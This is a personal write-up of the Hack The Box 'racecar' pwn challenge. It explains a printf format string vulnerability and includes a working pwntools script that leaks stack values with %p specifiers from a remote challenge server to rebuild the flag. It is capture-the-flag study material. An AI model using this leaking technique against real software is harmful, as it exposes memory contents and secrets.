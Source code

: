 
2024-07-30 15:14

Source: #htb 
 
Tags: [[Binary Exploit]] [[Format String Vulnerabilities (printf)]]
## Gist 

- We are given a binary that takes a bunch of Boolean inputs and if it matches a randomly generated value (referred to as winning) then it gives you an option to input some data that gets stored in the stack and reveals the flag.
- now, if you win then the code checks if a `flag.txt` exists in the working directory and if it doesn't then it throws an error.
- create a `flag.txt` in the working directory and populate the file with some AAAA's further run the `pwntool` script and get the answer 
`echo AAAAAAAAAAA  >  flag.txt`
### Recon

open the file `dogbolt` online and on seeing the o/p from `Ghidra` we see - 
1. that the `flag.txt` is opened in read mode and returns a pointer to `__stream`.

2. The [[fgets]] function reads a line from the file pointed to by `__stream` (the flag) and stores it in the buffer `local_3c`, which is an array of size `0x2c` (44 bytes).

3. The `read(0, __format, 0x170)` reads my input and stores it in the buffer `__format` of size `0x170` (368 bytes).
### Vulnerability Analysis 

My input is printed at the [[printf]], but our input is not checked, hence we can perform a format string attack. 
More information about format string attacks can be read here: [https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack).

If I run the binary and give many `%p`’s, data on the stack will be leaked in hexadecimal.
when doing this you will notice some addresses as `0x41414141` these will be the `AAAA` you added to your `flag.txt`
### Mimic user input via pwntools

```python
from pwn import *

flag = ''

# Let's fuzz x values
for i in range(100):
    try:
        # Connect to server
        io = remote('94.237.59.199', 55496)
        io.sendlineafter(b'Name: ', b'anything')
        io.sendlineafter(b'Nickname: ', b'something')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'1')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendlineafter(b'> ', '%{}$p'.format(i).encode())
        # Receive the response
        io.recvline()
        io.recvline()
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```
### References
https://app.hackthebox.com/challenges/racecar

walkthroughs - 
[Hack the Box rev HTB_RACECAR (pwnjournal.github.io)](https://pwnjournal.github.io/HTB_RACECAR/)
[HTB pwn →‘racecar’. | by Apothiphis_z | Medium](https://medium.com/@fracchetto1995/htb-pwn-racecar-f9206cfd943f)
[HTB: Racecar - remoteshell.zip](https://remoteshell.zip/racecar/)
[Racecar | WriteUps (gitbook.io)](https://sayonara.gitbook.io/writeups/hackthebox/challenges/pwn/racecar)
